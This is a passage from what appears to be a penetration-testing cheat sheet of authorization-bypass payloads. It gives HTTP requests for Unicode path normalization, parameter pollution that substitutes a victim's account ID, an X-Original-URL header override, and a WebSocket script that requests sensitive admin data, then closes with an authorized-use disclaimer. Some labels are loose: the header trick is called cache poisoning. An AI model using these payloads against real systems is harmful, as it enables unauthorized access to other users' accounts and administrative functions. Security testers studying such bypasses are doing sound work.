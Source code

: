 ### Unicode Normalization Bypass
```http
GET /admin/%C3%A0dmin/panel HTTP/1.1  # àdmin looks like admin
Host: target.com
```

### HTTP Parameter Pollution
```http
GET /api/user?account_id=legit_id&account_id=victim_id HTTP/1.1
Host: target.com
```

### Cache Poisoning for Authorization
```http
GET /account HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

### WebSocket Authorization Bypass
```javascript
const ws = new WebSocket('wss://target.com/admin');
ws.onopen = () => {
  ws.send(JSON.stringify({action: "getSensitiveData"}));
};
```

Remember to only use these payloads for authorized security testing. Unauthorized testing may violate laws and regulations. Always obtain proper permission before conducting security assessments and follow responsible disclosure practices.